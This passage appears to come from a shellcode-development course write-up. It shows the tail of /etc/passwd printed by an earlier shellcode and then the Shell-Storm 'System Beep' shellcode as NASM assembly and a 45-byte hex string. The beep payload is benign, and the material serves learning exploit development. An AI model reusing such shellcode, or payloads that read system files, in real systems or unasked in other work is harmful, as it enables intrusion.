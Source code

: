 ```shell
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                                  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                                  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                     
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...                         
```

### Shellcode II: System Beep
#### Shellcode II: Explanation
The second shellcode that will be examined and altered is the 'System Beep' shellcode. This shellcode uses two system calls to complete the task of making the system on which the code is executed issue a low tone audible beep. The system calls used in this shellcode are `open` and `iotcl`. 

The original Shell-Storm shellcode can be found [here](http://shell-storm.org/shellcode/files/shellcode-60.php).

#### Shellcode II: Original Assembly & Shellcode
The assembly instructions for the unmodified 'System Beep' shellcode are shown below:

```nasm
global _start

section .text
_start:
    push byte 5
    pop eax 
    cdq 
    push edx 
    push 0x30317974
    push 0x742f2f2f
    push 0x7665642f
    mov ebx, esp 
    mov ecx, edx 
    int 0x80
    mov ebx, eax 
    push byte 54
    pop eax 
    mov ecx, 4294948047
    not ecx 
    mov edx, 66729180
    int 0x80
```

After compiling and linking the assembly code above, the `bash` one-liner mentioned previously can be used to generate the hexadecimal shellcode shown below. The original 'System Beep' shellcode is 45 bytes in length.

```shell
\x6a\x05\x58\x99\x52\x68\x74\x79\x31\x30\x68\x2f\x2f\x2f\x74\x68\x2f\x64\x65\x76\x89\xe3\x89\xd1\xcd\x80\x89\xc3\x6a\x36\x58\xb9\xcf\xb4\xff\xff\xf7\xd1\xba\xdc\x34\xfa\x03\xcd\x80
```

